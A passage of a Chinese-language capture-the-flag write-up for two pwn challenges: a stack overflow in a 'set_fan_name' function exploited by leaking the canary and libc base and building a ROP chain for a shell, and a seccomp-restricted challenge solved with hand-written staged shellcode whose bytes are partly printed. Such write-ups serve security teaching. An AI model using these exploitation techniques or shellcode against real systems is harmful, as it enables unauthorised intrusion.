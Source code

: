 那在拿到很多錢之後就能把商店所有東西都買齊，接著只要開一次直播就有5千萬粉絲就能使用`set_fan_name`的功能
```c=
void set_fan_name()
{
    if (fans >= 10000000 && stickers >= 200)
    {
        char buf[0x20];
        char y = '\0';

        while (1)
        {
            puts("Enter your fans name");
            write(1, "> ", 2);
            read(0, buf, (fans / 400000));
            printf("Set fans name to %s (Y/N)\n", buf);
            y = getchar();
            if (y == 'Y' || y == 'y')
            {
                break;
            }
        }

        strcpy(fan_name, buf);
        puts("Set fans name success");
    }
    else
    {
        puts("Only who has fans over 10M and stickers over 200 can set fans name");
    }
}
```
由於這邊fans數量已經很大所以除以400000之後會有overflow而且這邊可以無限制的讀取跟寫入，這時可先觀察stack上的東西有canary有libc的位置該有的都有了，所以可以在這邊把所有東西都leak出來
![](https://i.imgur.com/HiZLIaF.png)

當成功leak出canary跟libc base address之後因為overflow的部分可以覆蓋到return address甚至更後面所以直接在這邊疊rop chain就可以get shell

[exploit](/pwn/debut/exploit.py)

## pekopeko
### 考點
1. shellcode
2. seccomp
### exploit
這題內容跟`peko`那題幾乎相同一樣是需要手寫shellcode，但是這題有上了seccomp限制能夠使用的syscall
![](https://i.imgur.com/MGb5dSP.png)

用`seccomp-tools`可以看到限制只能使用x64的syscall並且只有`read, open, exit, exit_group`四個syscall可以使用，所以不能直接使用`execve("/bin/sh")`來開shell
然後因為一開始給的長度只有64而已一定不夠用，所以就跟`peko`那題的做法一樣用`read`去寫入到隨便一個地方再跳進去執行
```=
\x90\x90\x90\xeb\x02\x87
\x49\x89\xD7                          mov r15, rdx
\x48\x31\xFF                          xor rdi,rdi
\xeb\x03\x90\x90\x87                  jmp
\x49\x83\xC7\x50                      add r15, 0x50
\x4C\x89\xFE                          mov rsi, r15
\xeb\x02\x90\x87                      jmp
\x48\xC7\xC2\xFF\xFF\x00\x00          mov rdx, 0xff
\xeb\x02\x90\x87                      jmp
\x48\x31\xC0                          xor rax,rax
```